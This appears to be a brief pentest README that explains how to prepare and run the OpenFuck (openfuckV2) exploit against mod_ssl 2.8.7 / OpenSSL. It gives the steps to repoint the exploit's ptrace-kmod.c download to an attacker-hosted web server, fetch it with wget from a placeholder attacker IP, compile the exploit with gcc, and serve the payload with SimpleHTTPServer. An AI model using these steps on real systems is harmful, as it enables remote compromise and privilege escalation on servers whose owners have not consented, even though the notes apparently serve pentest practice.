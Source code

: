 # pentest
 
**mod_ssl 2.8.7 open ssl exploit (openfuckv2)** (https://www.exploit-db.com/exploits/764)

1. Change location for **ptrace-kmod.c**
at about line 672 - update download location for ptrace-kmod.c file. Ideally, you can host this file on your webserver (eg. attacking machine SimpleHTTPServer) so that when you execute the exploit it will retrieve this dependency to run successfully.
`wget http://your-attacking-ipaddress/ptrace-kmod.c;`

2. install libssl-dev
`apt-get install libssl-dev`

3. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`

4. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`
